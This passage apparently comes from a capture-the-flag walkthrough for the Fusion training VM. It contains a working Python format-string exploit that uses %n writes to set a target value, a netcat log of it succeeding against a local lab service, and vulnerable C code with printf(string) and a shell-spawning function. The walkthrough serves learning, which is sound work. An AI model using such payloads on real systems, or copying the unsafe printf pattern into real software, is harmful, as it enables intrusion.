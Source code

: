 By continously padding out and writing to the different bytes of
`target`, we're able to modify it to `0x0ddba11`.

{% highlight python %}
import struct

pack = lambda dword: struct.pack("I", dword)

payload = ''.join([
    pack(0x804b4ec),
    pack(0x804b4ec+1),
    pack(0x804b4ec+2),
    pack(0x804b4ec+3), # 10 bytes written at this point
    "_", # 11
    "%4$n", 
    "A"*(0xba-0x11),
    "%5$n",
    "B"*(0xdd-0xba),
    "%6$n"
])

print payload

{% endhighlight %}

~~~
fusion@fusion:~$ python level11.py | nc 127.0.0.1 20011
[ &target = 0x0804b4ec, we want 0x0ddba11, currently is 0x0 ]
_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

[ critical hit! :> ]
~~~

![Success!]({{ site-url }}/assets/post_images/fusion_level11_celebration.gif)

* * * 

# [level12](https://exploit-exercises.com/fusion/level12/)

> About
>
>There is no description available for this level. Investigate
>the source code and see what you can find out!

The code below is vulnerable to a format-attack, where we use a
combination of `%n` and padding to write what we want, wherever we want.
  
{% highlight c %}
/*
 * The aim of this level is to redirect code execution by overwriting an entry
 * in the global offset table.
 */

void callme()
{
  printf("Hmmm, how did this happen?\n");
  system("exec /bin/sh");
}

void echo(char *string)
{
  printf("You said, \"");
  printf(string);
  printf("\"\n");
  fflush(stdout);
}